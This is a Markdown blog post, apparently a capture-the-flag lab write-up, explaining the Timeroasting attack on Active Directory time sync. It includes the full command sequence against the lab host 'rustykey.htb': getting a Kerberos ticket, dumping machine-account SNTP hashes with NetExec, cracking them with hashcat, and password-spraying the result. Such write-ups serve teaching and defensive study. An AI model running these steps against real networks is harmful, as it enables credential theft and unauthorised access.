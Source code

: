 ```yaml
---
title: 🎟️ Ticket to the Kingdom Kerberos Attack - Timeroasting
date: 2025-10-29 01:06:00 +/-TTTT
categories: [Kerberos-Attack]
tags: [Golden-Ticket]     # TAG names should always be lowercase
image : /assets/images/timeroastingbackground.png
---
```

> Author : lineeralgebra
{:.prompt-tip}

We attempted common Active Directory enumeration techniques like **AS-REP roasting** and **Kerberoasting**, but neither yielded any results.

However, there's a newer attack technique worth exploring: **Timeroasting**.

### What is Timeroasting?

Think of Timeroasting (or as I like to call it, “time baking”) as a clever trick attackers use **after gaining a foothold** in a network. It exploits a subtle flaw in Microsoft’s **MS-SNTP (Secure Network Time Protocol)** implementation, particularly the way time synchronization is handled between domain-joined systems and the Domain Controller.

Here’s how it works:

The attacker impersonates a computer on the network and initiates a time sync with the Domain Controller by saying something like, “Hey, let’s match clocks!” During this process, they can trick the system into leaking a "photocopy of a photocopy" — the **MD5 digest of the NTLM hash** — belonging to **machine accounts**.

Once obtained, the attacker takes the hash home (figuratively speaking) and tries to **crack it offline**, using brute-force or dictionary attacks, hoping to recover the actual machine password.

Now, here’s the catch: most modern machine account passwords are **32-character random strings** auto-generated by the system — practically uncrackable, even with massive GPU rigs.

So, why bother with Timeroasting?

Because attackers aren't always looking for the strongest target. They're **looking for misconfigurations** — the weak links:

- **Weak machine passwords** set manually by admins. Sometimes, for convenience, an admin might set a password like `123456` or `Password1!` and forget to rotate it later.
- **Factory default passwords**: During mass deployments, IT may pre-create machine accounts with a default password for provisioning. If even one of these machines makes it to production without a password change, it’s a ticking time bomb.
- **Orphaned machine accounts**: Devices that have long since been decommissioned — maybe even physically scrapped — but their AD computer objects remain untouched, with passwords that haven’t changed in years. These "zombie" accounts are low-hanging fruit.

So the true value of Timeroasting lies not in cracking every hash, but in **“panning for gold”** — identifying the occasional weak or forgotten machine account among a sea of hardened ones.

### Tooling

Recently, tools like **NetExec** have added support for the `timeroast` module, and **Hashcat** now supports cracking the resulting hashes as well — making this attack vector more accessible and effective than ever.

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" getTGT.py  rustykey.htb/rr.parker:'8#t5HE8L!W3A' -dc-ip 10.10.11.75                  

[*] Saving ticket in rr.parker.ccache
```

and export it

```bash
export KRB5CCNAME=rr.parker.ccache  
klist
Ticket cache: FILE:rr.parker.ccache
Default principal: rr.parker@RUSTYKEY.HTB

Valid starting       Expires              Service principal
07/02/2025 02:38:03  07/02/2025 12:38:03  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 07/03/2025 02:38:02
```

and now we can use

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u 'rr.parker' -p '8#t5HE8L!W3A' -k -M timeroast
```

![alt text](../assets/images/kerberos86.png)

Got some hashes then prepare to use Hashcat to crack them:

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u 'rr.parker' -p '8#t5HE8L!W3A' -k -M timeroast > timehashes.txt            

grep -E '\$.{0,}' timehashes.txt -o > timeroast.hashes
cat timeroast.hashes 
$sntp-ms$f0f1fde00c60a17d3e6d8c123b4f6c35$1c0111e900000000000a2a034c4f434cec0f1b9fcd3c8846e1b8428bffbfcd0aec0f5302c1342edbec0f5302c13473a5
$sntp-ms$c55add1c2b9992ad50333673bc7e7431$1c0111e900000000000a2a034c4f434cec0f1b9fcdadede4e1b8428bffbfcd0aec0f53035dce6c09ec0f53035dcecf05
$sntp-ms$18845956d00599d2b4a67e8d86311f71$1c0111e900000000000a2a034c4f434cec0f1b9fcf8519afe1b8428bffbfcd0aec0f53035fa5a038ec0f53035fa60334
$sntp-ms$45bb6f1449c34f049454aae9d8ea5447$1c0111e900000000000a2a034c4f434cec0f1b9fcd12fee0e1b8428bffbfcd0aec0f5303610a9ebfec0f5303610ae388
$sntp-ms$e65ab82038f6f43aa41522f348579ab5$1c0111e900000000000a2a034c4f434cec0f1b9fce7fc837e1b8428bffbfcd0aec0f530362776b71ec0f53036277a984
$sntp-ms$65da5a9a4fd22ee53a7e12cefc4b51dd$1c0111e900000000000a2a034c4f434cec0f1b9fcff7d086e1b8428bffbfcd0aec0f530363ef7a76ec0f530363efb026
$sntp-ms$b98d70386d0ee50ca433fb4eeb8cb16f$1c0111e900000000000a2a034c4f434cec0f1b9fd05de30ae1b8428bffbfcd0aec0f530374765ba6ec0f5303747688f3
$sntp-ms$cbcc4896310a8c458573c1512fc37953$1c0111e900000000000a2a034c4f434cec0f1b9fce0cf32de1b8428bffbfcd0aec0f530375fc7607ec0f530375fca1a6
$sntp-ms$579eadad7f139d399676307b34625317$1c0111e900000000000a2a034c4f434cec0f1b9fce53d20fe1b8428bffbfcd0aec0f53037643533bec0f530376438235
$sntp-ms$56c4366faa2bb63547c109aaea811462$1c0111e900000000000a2a034c4f434cec0f1b9fccd2079fe1b8428bffbfcd0aec0f530378da0d27ec0f530378da4b3a
$sntp-ms$a3519cfcdac3ed9dbd529679e2ae58b1$1c0111e900000000000a2a034c4f434cec0f1b9fcd0c4dece1b8428bffbfcd0aec0f5303791460e0ec0f530379148e2c
$sntp-ms$166a1e66b0e0bdbeacdf8312e6331842$1c0111e900000000000a2a034c4f434cec0f1b9fce98f7b3e1b8428bffbfcd0aec0f53037aa103f1ec0f53037aa13b4e
$sntp-ms$477e32b827304ea413cbb37ecccb7690$1c0111e900000000000a2a034c4f434cec0f1b9fccbc0427e1b8428bffbfcd0aec0f53037cdc9b76ec0f53037cdce1ed
$sntp-ms$bfc314ea77a38d23df1020e1bfa62c57$1c0111e900000000000a2a034c4f434cec0f1b9fcdb2646be1b8428bffbfcd0aec0f53037dd305cbec0f53037dd33d29
$sntp-ms$5d4ab4e4c4abe719bb59cc3b879d4559$1c0111e900000000000a2a034c4f434cec0f1b9fcf5e7e3ae1b8428bffbfcd0aec0f53037f7f1f9aec0f53037f7f5dae
$sntp-ms$a3958cd3c77c0dc5a702a409fea79719$1c0111e900000000000a2a034c4f434cec0f1b9fccf84a29e1b8428bffbfcd0aec0f530380eff419ec0f530380f02b76
```

Then we use the [Hashcat beta version](https://hashcat.net/beta/) including the mode 31300 for MS SNTP:

```bash
7z x hashcat-6.2.6+1072.7z 
hashcat-6.2.6/hashcat.bin -a 0 -m 31300 timeroast.hashes /usr/share/wordlists/rockyou.txt
...
$sntp-
ms$62e171e78566a05290b376b3ea5a9261$1c0111e900000000000a5dff4c4f434cec0e08cd54b
8503ee1b8428bffbfcd0aec0e84b97ca7cfbdec0e84b97ca80064:Rusty88!
```

![alt text](../assets/images/kerberos87.png)

and now we can do password spray

```bash
faketime "$(ntpdate -q rustykey.htb | cut -d ' ' -f 1,2)" nxc smb dc.rustykey.htb -u users.txt -p 'Rusty88!' -k                                 
[SNIP]
SMB         dc.rustykey.htb 445    dc               [+] rustykey.htb\IT-Computer3$:Rusty88! 
```